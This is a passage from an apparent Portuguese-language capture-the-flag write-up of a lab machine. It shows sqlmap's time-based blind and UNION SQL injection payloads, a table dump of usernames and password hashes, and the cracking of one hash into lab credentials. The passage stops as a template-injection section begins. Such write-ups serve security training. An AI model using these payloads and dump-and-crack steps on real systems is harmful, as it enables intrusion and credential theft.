 Com isso, vamos ver se o mesmo é vulnerável a SQL Injection! Rodamos o SQLMAP (não tenho saco pra fazer na mão, perdão) e ele afirmou que é um target vulnerável e aqui está o payload:

```sql
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.96:80/users/' AND (SELECT 4539 FROM (SELECT(SLEEP(5)))HnFr) AND 'oafg'='oafg

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://10.10.10.96:80/users/' UNION ALL SELECT CONCAT(0x716b6a6a71,0x4a5a75686a466179666c6479446b6a69414a5775566c656e4d587945655252776a6463746c517144,0x7171717871)-- -
```

Após a enumeração de databases, tabelas e colunas, consegui pegar usuários e senhas (infelizmente criptografadas) na tabela "users_gwb". Aqui está o resultado:

```sql
# sqlmap --url="http://10.10.10.96/users/" -D ozdb -T users_gbw -C id,password,username --dump

Database: ozdb                                                                                                                     
Table: users_gbw
[6 entries]
+----+----------------------------------------------------------------------------------------+-------------+
| id | password                                                                               | username    |
+----+----------------------------------------------------------------------------------------+-------------+
| 1  | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin       |
+----+----------------------------------------------------------------------------------------+-------------+
```

Quebrando-as com john e utilizando a rockyou.txt como wordlist, nós conseguimos quebrar a hash. Com isso, pegamos credenciais: wizard.oz:wizardofoz22

### Server Side Template Injection. 🐘

Após logarmos no serviço rodando na porta 8080, nos deparamos com a seguinte interface de criação e monitoramento de tickets:
